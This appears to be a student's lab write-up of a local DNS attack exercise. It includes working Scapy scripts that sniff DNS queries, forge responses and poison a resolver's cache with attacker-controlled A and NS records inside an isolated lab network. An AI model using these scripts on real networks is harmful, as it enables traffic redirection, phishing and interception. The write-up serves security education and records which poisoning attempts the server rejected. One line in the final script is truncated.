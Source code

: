 # Local DNS Attack Lab

## 2.4 Testing the DNS Setup

```
$ dig ns.attacker32.com
```
![Screenshot 2025-05-17 124530](https://github.com/user-attachments/assets/9908283a-6417-4be0-a1af-c29fd41451be)

We can see that the answer comes from the attacker nameserver because the dig command only returns the attacker namerserver IP adress.

---

```
$ dig www.example.com
```
![image](https://github.com/user-attachments/assets/12389a65-8795-4317-b38a-425e35e15478)

When trying to access ``` www.example.com ``` the DNS nameserver used is not the malicious one.

---

```
$ dig @ns.attacker32.com www.example.com
```
![image](https://github.com/user-attachments/assets/95c05e42-6cfc-442d-a154-0d809fa0dacf)

If we explicitly ask the attacker nameserver, we get a different (and false) IP adress for ```www.example.com```


#### Our goal: Get the user to ask the malicious nameserver first.  
---

## 3.1: Task 1 Directly Spoofing Response to User

This is the script we used to spoof the DNS packet.
``` python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
        if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
                print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

                ip = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Swap the source and destination IPs

                udp = UDP(dport=pkt[UDP].sport, sport=53) # Swap the source and destination ports

                # The Answer Section
                Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='10.9.0.1')

                # The Authority Section is not needed
                # The Additional Section is not needed

                # Create DNS object
                dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)

                spoofpkt = ip/udp/dns # Assemble the spoofed DNS packet
                send(spoofpkt)

myFilter = "udp and dst port 53" # only capture UDP traffic with destination port 53
pkt=sniff(iface='br-4a379a2ae130', filter=myFilter, prn=spoof_dns)
```

With this code, we sniff for DNS requests containing ``` example.com ```, we spoof a reply by swapping target and source IP addresses and ports and creating a DNS answer section containing the 'bad' IP address we want the victim to use for the respective hostname.

When we now execute ``` dig www.example.com ``` on the ``` user ``` machine, we see this:

![image](https://github.com/user-attachments/assets/393f7f25-df2c-4788-9a2b-f2476ae5434f)

The answer now contains the attacker machine's IP address (```10.9.0.1```) and not the real address like before.

---

## 3.2: Task 2: DNS Cache Poisoning Attack - Spoofing Answers

We now want to be the 'man in the middle' between the local DNS server and a remote authoritative DNS server. 

To do this, we only have to change the filter in our spoofing script to only sniff packets that are coming from our local DNS server and are going to port 53 (DNS requests).

```python
myFilter = "udp and dst port 53 and src host 10.9.0.53" 
```
The rest of the script of task 1 stays the same.

So now the dig request on the ```user``` machine gives 
```
;; ANSWER SECTION:
www.example.com.        259200  IN      A       10.9.0.1
```
as well.

But now the local DNS server cache is also poisoned and contains:

```
www.example.com.        863957  A       10.9.0.1
```

---

## 3.3: Task 3: Spoofing NS Records

Now we want to add an Authority Section to out spoofed DNS reply. This will lead to the local DNS server saving our malicious name server in its cache as the authority responsible for the entire ``` example.com ``` domain. Therefore, when a user makes a DNS request to the local DNS server about any subdomain like ``` mail.example.com ```, the request will be forwarded to the attacker nameserver.

To achieve this, we just create the section in our script with this line:

```python
NSsec1 = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.attacker32.com')
```

To include it in our spoofed DNS packet, we have to modify the ```nscount``` and ```ns``` properties in the instantiation of our DNS object:

```python
dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0, an=Anssec, ns=NSsec1)
```

The rest of the script remains as before.

So if we now execute ```dig mail.example.com``` on the ```user**``` machine, we see the wrong IP address provided by the malicious nameserver:

![image](https://github.com/user-attachments/assets/0b0e097d-f17f-4050-b4c0-895b67fe4eb4)

Further, the local DNS server cache now contains the entry:

```
example.com.            777584  NS      ns.attacker32.com.
```

This means every request made to the DNS server for this domain is forwarded to our attacker nameserver if there is no entry for the specific hostname already in the cache.

---

## 3.4: Task 4: Spoofing NS Records for Another Domain

Now we want our spoofed reply to also add a cache entry for the ```google.com``` domain. To do this, we just add another element to the authority section.

The creation of the additional element in the authority section works in the same way as before:

```python
 NSsec2 = DNSRR(rrname='google.com', type='NS', ttl=259200, rdata='ns.attacker32.com')
```

Of course, we have to inlude this in the DNS object as well:

```python
dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=0, an=Anssec, ns=NSsec1/NSsec2)
```

However, when we now execute ```dig www.example.com``` and then check the local DNS server's cache we will again only find the entry for the ```example.com``` domain and not for ```google.com```. This is because (properly configured) DNS servers only accept Authority Records that match the domain that was originally requested. This was done to prevent exactly this type of attack, the so called 'Cross-Domain-Poisoning'.

---

## 3.5: Task 5: Spoofing Records in the Additional Section

The full script we used for this attack look like this:

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
        if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
                print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

                ip = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Swap the source and destination IPs

                udp = UDP(dport=pkt[UDP].sport, sport=53) # Swap the source and destination ports

                # The Answer Section
                Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='10.9.0.1')

                # The Authority Section
                NSsec1 = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.attacker32.com')
                NSsec2 = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.example.com')

                #The Additional Section
                Addsec1 = DNSRR(rrname='ns.attacker32.com', type='A', ttl=259200, rdata='1.2.3.4')
                Addsec2 = DNSRR(rrname='ns.example.net', type='A', ttl=259200, rdata='5.6.7.8')
                Addsec3 = DNSRR(rrname='www.facebook.com', type='A', ttl=259200, rdata='3.4.5.6')

                # Create DNS object
                dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=3, a>
                spoofpkt = ip/udp/dns # Assemble the spoofed DNS packet
                send(spoofpkt)

myFilter = "udp and dst port 53 and src host 10.9.0.53"
pkt=sniff(iface='br-4a379a2ae130', filter=myFilter, prn=spoof_dns)
```

- We still include the answer section
- The authority section contains two ```NS``` entries for the ```example.com``` domain.
- The additional section contains three entries: ```ns.attacker.com```, ```ns.example.net``` and ```www.facebook.com```.

After this attack, the local DNS server's cache contains

```
example.com.            777592  NS      ns.example.com.
                        777592  NS      ns.attacker32.com.
```

But none of the entries of the Additional Section are included. Apparently only the two entries of the Authority Section were cached by the local DNS server. We had expected that at least the entry for ```ns.attacker32.com``` would be cached, as there is an Authority Entry for it in the same packet. Possibly, the DNS server is configured to ignore A-records of the Additional Section.

The other two entries were expected to be discarded, as the ```www.facebook.com``` domain is not included in the Authority Section at all and the ```ns.example.net``` is on a different top-level domain (```.net```) than the one in the Authority section.
